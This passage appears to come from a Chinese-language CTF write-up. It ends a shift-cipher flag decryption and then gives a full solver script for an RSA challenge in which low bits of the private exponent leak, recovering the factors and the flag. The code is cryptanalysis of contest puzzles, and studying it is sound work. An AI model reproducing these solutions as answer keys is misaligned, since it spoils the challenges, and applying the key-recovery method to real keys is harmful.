            decrypted_char_code = ((ord(char) - ord('a') - shift + 26) % 26) + ord('a')
            decrypted_flag += chr(decrypted_char_code)

            # 移动到序列中的下一个移位值
            shift_index += 1
        else:
            # 如果不是字母（如 "{"、"_"、数字），则直接保留
            decrypted_flag += char

    print(f"Decrypted flag: {decrypted_flag}")


# 运行解密函数
solve_correctly()
```



## rsa-dl\_leak

私钥低位泄露的情况下RSA会被破解吗？

rsa爆破破解

exp

```
import gmpy2
from Crypto.Util.number import long_to_bytes

# 这是题目给出的已知信息
n = 143504495074135116523479572513193257538457891976052298438652079929596651523432364937341930982173023552175436173885654930971376970322922498317976493562072926136659852344920009858340197366796444840464302446464493305526983923226244799894266646253468068881999233902997176323684443197642773123213917372573050601477
c = 141699518880360825234198786612952695897842876092920232629929387949988050288276438446103693342179727296549008517932766734449401585097483656759727472217476111942285691988125304733806468920104615795505322633807031565453083413471250166739315942515829249512300243607424590170257225854237018813544527796454663165076
dl = 1761714636451980705225596515441824697034096304822566643697981898035887055658807020442662924585355268098963915429014997296853529408546333631721472245329506038801
e = 65537

# 泄露的比特数
leaked_bits = 530
mod_leaked = 1 << leaked_bits

# 临时变量 M = e*d_low - 1
M = e * dl - 1

# 提取 n 的高位部分，用于后续拼接
n_high = n & ~((1 << leaked_bits) - 1)

print("开始遍历 k ...")
# 遍历所有可能的 k (1 <= k < e)
for k in range(1, e):
    # 根据 k*phi ≡ M (mod 2^leaked_bits) 求解 phi 的低位
    # 我们需要处理 k 为偶数的情况
    common_divisor = gmpy2.gcd(k, mod_leaked)

    # 如果 M 不能被公约数整除，那么这个 k 是错误的
    if M % common_divisor != 0:
        continue

    # 简化同余方程
    k_reduced = k // common_divisor
    M_reduced = M // common_divisor
    mod_reduced = mod_leaked // common_divisor

    # 求解 k_reduced 的逆元
    k_inv = gmpy2.invert(k_reduced, mod_reduced)

    # 计算 phi 的低位部分
    phi_low = (M_reduced * k_inv) % mod_reduced

    # 构造 phi 的候选值
    # phi 和 n 的高位很可能相同
    # 我们测试两种可能，以防出现借位
    phi_candidate_1 = (n_high & ~((1 << mod_reduced.bit_length() - 1) - 1)) + phi_low
    phi_candidate_2 = phi_candidate_1 - mod_leaked

    for phi_candidate in [phi_candidate_1, phi_candidate_2]:
        # 验证 phi_candidate 是否正确
        # s = p + q = n - phi + 1
        s = n - phi_candidate + 1

        # 判别式 delta = s^2 - 4n
        delta = s * s - 4 * n

        if delta > 0 and gmpy2.is_square(delta):
            # 如果是完全平方数，说明找到了 p 和 q
            sqrt_delta = gmpy2.isqrt(delta)

            # p和q必须是整数
            if (s + sqrt_delta) % 2 == 0:
                p = (s + sqrt_delta) // 2
                q = (s - sqrt_delta) // 2

                # 最终验证
                if p * q == n:
                    print("
[+] 成功分解 n!")
                    print("  - p =", p)
                    print("  - q =", q)

                    # 计算完整的私钥 d
                    phin_actual = (p - 1) * (q - 1)
                    d_actual = gmpy2.invert(e, phin_actual)

                    # 解密
                    m = gmpy2.powmod(c, d_actual, n)

                    # 将明文数字转换为字节
                    flag = long_to_bytes(m)

                    print("
[+] 破解成功!")
                    print("  - 找到的 k值为:", k)
                    print("  - 完整的私钥 d 为:", d_actual)
                    print("  - 解密后的 Flag 为:", flag.decode())
                    exit(0)  # 成功，退出程序

print("
[-] 破解失败，未找到合适的 k。")
```


